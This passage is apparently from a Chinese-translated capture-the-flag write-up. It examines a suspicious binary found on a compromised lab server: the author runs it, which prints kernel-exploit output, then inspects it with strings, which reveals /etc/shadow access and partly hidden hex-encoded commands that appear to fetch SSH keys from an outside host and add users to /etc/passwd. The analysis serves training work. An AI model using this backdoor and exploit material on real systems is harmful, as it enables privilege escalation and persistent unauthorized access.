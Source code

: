 备份文件夹中的这个信息文件是什么？让我们来看看:

```
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cp /var/backups/info /tmp
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cd /tmp

www-data@production:/tmp$ file info
file info
info: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc004db7476356e9ed477835e583c68f1d2493a, for GNU/Linux 3.2.0, not stripped

www-data@production:/tmp$ ./info
[-] substring 'ffff' not found in dmesg
[.] starting
[.] namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
```

不确定它是做什么的，把它拉过来给 Kali，这样我们可以看得更远一点:

![](img/823ebba740710c9e44a8b96bd7310d18.png)

从盒子里取出信息文件

# 使用字符串查看文件

首先在二进制文件上尝试字符串，看看明文中有什么:

```
┌──(root💀kali)-[~/htb/undetected]
└─# strings info
/lib64/ld-linux-x86-64.so.2
<SNIP>
[-] setsockopt(PACKET_VERSION)
[-] setsockopt(PACKET_RX_RING)
[-] socket(AF_PACKET)
[-] bind(AF_PACKET)
[-] sendto(SOCK_RAW)
[-] socket(SOCK_RAW)
[-] socket(SOCK_DGRAM)
[-] klogctl(SYSLOG_ACTION_SIZE_BUFFER)
[-] klogctl(SYSLOG_ACTION_READ_ALL)
Freeing SMP
[-] substring '%s' not found in dmesg
/bin/bash
56d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f2<SNIP>
03a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737<SNIP>
646f6e65203c2075736572732e7478743b20726d2075736572732e7478743b<SNIP>
[-] fork()
/etc/shadow
[.] checking if we got root
[-] something went wrong =(
```
